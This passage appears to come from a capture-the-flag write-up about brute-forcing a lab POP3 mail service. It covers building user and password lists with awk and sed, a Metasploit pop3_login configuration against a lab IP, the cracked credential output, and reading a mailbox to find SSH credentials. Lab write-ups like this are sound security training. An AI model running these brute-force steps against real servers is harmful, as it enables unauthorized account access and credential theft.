 Documentation : https://www.rapid7.com/db/modules/auxiliary/scanner/pop3/pop3_login/

We need to cut out user list and passwords. Let's make this fast with this simple command.

For users : awk -F'@' '{print $1}' hashes.txt > users.txt
For passwords : sed -n 's/.*://p' crack.txt > pass.txt

This commands maybe change it's on you.

Now we got users file and password file. Let's enter this info into the metasploitable. Following are my commands to metasploitable.

```bash
msfconsole
use auxiliary/scanner/pop3/pop3_login
set RHOSTS 10.10.209.184
set USER_FILE users.txt
set PASS_FILE pass.txt
set VERBOSE true
set STOP_ON_SUCCESS true
run
```
You can disable verbose mode here I was looking at a brute force what is going on. If you don't want to watch the bruteforce process you can set it into false.

## What was seina's password to the email service?

```bash
[+] 10.10.209.184:110     - 10.10.209.184:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
```
We got a hit on scoobydoo2 on seina user.

## Can you connect to the pop3 service with her credentials? What email information can you gather?

Let's log into to the pop3 mail server with netcat. If you don't know what to do after login this web article may help you.

https://electrictoolbox.com/pop3-commands/ : About pop3 commands

## Looking through her emails, what was a temporary password set for her?

After viewing our first email to seina. I found this ssh credentials on that mail.
